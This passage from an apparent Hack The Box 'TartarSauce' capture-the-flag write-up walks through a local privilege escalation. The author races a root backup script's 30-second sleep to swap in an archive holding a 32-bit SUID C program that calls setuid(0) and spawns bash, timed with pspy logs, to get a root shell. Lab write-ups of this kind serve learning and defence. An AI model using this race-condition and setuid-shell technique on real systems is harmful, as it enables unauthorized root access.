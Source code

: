 - First it recursively deletes everything in /var/tmp/.* and /var/tmp/check.
- Then it gzip everything in the directory */var/www/html* and saves it in the file /var/tmp/.afgaufiuafgwfaf
- After it sleeps for 30 seconds.
- Creates the directory /var/tmp/check.
- Extract the gzip file inside the check folder.
- Then it do a integrity check.
- If the files in /var/www/html are different from the files in the backup it created /var/tmp/check/var/www/html, then report error. Otherwise, move file /var/tmp/.efgefffsafffav to /var/backups/onuma-wwww-dev.bak and remove everything in the check directory. If the files are different it left that there and after 5mins when the application reruns remove those directory and start the process again.

So What we need to do is, We need to change the .ffegsigiisifghis file with our payload within the 30 seconds and after 30seconds it will extract it and Integrity checks happen, so it will different and it left those file there for the next 5mins. 

Since the machine is 32bit, I made a C program and compiled it with 32bit. And make it SUID.

```bash
#include [unistd.h](unistd.h)
int main()
{
    setuid(0);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

Created  `var/www/html` folder and put my file inside.

![Untitled](/img/htb-tartarsauce/Untitled%2012.png)

Opened Pspy in one terminal and waiting for the first hit. And here it takes the backup and stored it in `/var/tmp`

```bash
2020/07/13 23:46:43 CMD: UID=1000 PID=2738   | /bin/tar -zcvf /var/tmp/.f7b56259dddf91387805c988a567e7b2c594024d /var/www/html 
2020/07/13 23:46:43 CMD: UID=1000 PID=2737   | /bin/tar -zcvf /var/tmp/.f7b56259dddf91387805c988a567e7b2c594024d /var/www/html
```

I just Copy my payload (pwn) and replace it with the one it created.

![Untitled](/img/htb-tartarsauce/Untitled%2013.png)

Here we can see after the 30seconds it just extracted the file.

```bash
2020/07/13 23:47:13 CMD: UID=0    PID=2749   | /bin/tar -zxvf /var/tmp/.f7b56259dddf91387805c988a567e7b2c594024d -C /var/tmp/check 
2020/07/13 23:47:13 CMD: UID=0    PID=2748   | /bin/tar -zxvf /var/tmp/.f7b56259dddf91387805c988a567e7b2c594024d -C /var/tmp/check
```

Now we can see that `check` directory is created.

![Untitled](/img/htb-tartarsauce/Untitled%2014.png)

And running that SUID binary make me root. We own the Box!